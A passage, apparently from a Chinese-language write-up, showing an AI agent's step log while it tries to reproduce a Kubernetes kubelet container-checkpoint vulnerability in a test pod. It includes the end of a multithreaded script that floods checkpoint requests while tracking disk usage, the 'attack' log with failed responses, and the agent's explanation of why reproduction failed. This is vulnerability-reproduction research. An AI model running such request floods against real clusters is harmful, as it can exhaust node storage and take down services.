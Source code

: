 ```
          with ThreadPoolExecutor(max_workers=50) as executor:                                                                                                                    
              while time.time() - start_time < 90:  # 运行90秒                                                                                                                    
                  executor.submit(send_checkpoint_request)                                                                                                                        
                  monitor_disk_usage()                                                                                                                                            
                  time.sleep(0.5)  # 调整请求间隔                                                                                                                                 
                                                                                                                                                                                  
      finally:                                                                                                                                                                    
          # 最终清理和验证                                                                                                                                                        
          cleanup()                                                                                                                                                               
          monitor_disk_usage()                                                                                                                                                    
                                                                                                                                                                                  
  # 直接执行主函数（已移除__name__判断）                                                                                                                                          
  main()                                                                                                                                                                          
 ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── 
pod/test-pod created
pod "test-pod" deleted
Execution logs:
Pod created
Pod is ready
Starting attack...
Current disk usage: 21128.59 MB
Response: 500
Current disk usage: 21128.59 MB
Response: 500
...
Current disk usage: 21128.62 MB
Response: 500
Cleanup completed
Current disk usage: 21128.58 MB

Out: None
[Step 4: Duration 149.09 seconds| Input tokens: 19,173 | Output tokens: 4,251]
```
- 步骤5
由于复现环境未配置正确故导致失败，大模型给出的建议比较正确，需要安装`criu`工具，且需要`containerd`版本支持
```
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ Step 5 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
 ─ Executing parsed code: ─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── 
  final_answer(                                                                                                                                                                   
      "复现失败，原因：kubelet未启用ContainerCheckpoint功能或容器运行时未正确配置CRIU支持。请检查：\n"                                                                            
      "1. kubelet版本是否在受影响范围(v1.30.0-1.30.9等)\n"                                                                                                                        
      "2. 确保feature gate配置：--feature-gates=ContainerCheckpoint=true\n"                                                                                                       
      "3. CRI-O需设置enable_criu_support=true或containerd安装criu工具\n"                                                                                                          
```